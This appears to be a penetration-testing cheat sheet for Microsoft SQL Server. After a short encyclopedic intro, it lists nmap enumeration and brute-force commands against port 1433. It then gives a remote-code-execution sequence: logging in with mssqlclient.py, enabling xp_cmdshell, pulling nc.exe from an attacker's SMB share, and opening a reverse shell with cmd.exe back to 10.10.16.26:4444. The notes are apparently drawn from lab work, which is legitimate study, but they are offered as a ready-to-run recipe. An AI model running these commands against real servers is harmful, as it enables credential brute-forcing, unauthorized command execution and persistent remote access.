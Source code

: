 ## Quick Intro
**Microsoft SQL Server** is a [relational database management system](https://en.wikipedia.org/wiki/Relational_database_management_system) developed by [Microsoft](https://en.wikipedia.org/wiki/Microsoft). As a [database server](https://en.wikipedia.org/wiki/Database_server), it is a [software product](https://en.wikipedia.org/wiki/Software_product) with the primary function of storing and retrieving data as requested by other [software applications](https://en.wikipedia.org/wiki/Software_application)—which may run either on the same computer or on another computer across a network (including the Internet).

## Nmap Scripts

```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip
```

## Brute Force

```
nmap -n -v -sV -Pn -p 1433 –script ms-sql-brute –script-args userdb=users.txt,passdb=passwords.txt $ip
```

## RCE with SQL Server

- We can use `mssql.py` to login and execute the commands

```
mssqlclient.py <domain>/<username>:<password>@$ip

mssqlclient.py bathry/admin:pss123@192.168.11.15
```

- Enabled Code execution
    
- Copied the Nishang reverse shell to current directory and added localhost and port to it and start hosting server

```
SQL> enable_xp_cmdshell

SQL> xp_cmdshell copy \\10.10.16.26\gabbar\nc.exe %temp%\nc.exe

SQL> xp_cmdshell %temp%/nc.exe -e cmd.exe 10.10.16.26 4444
```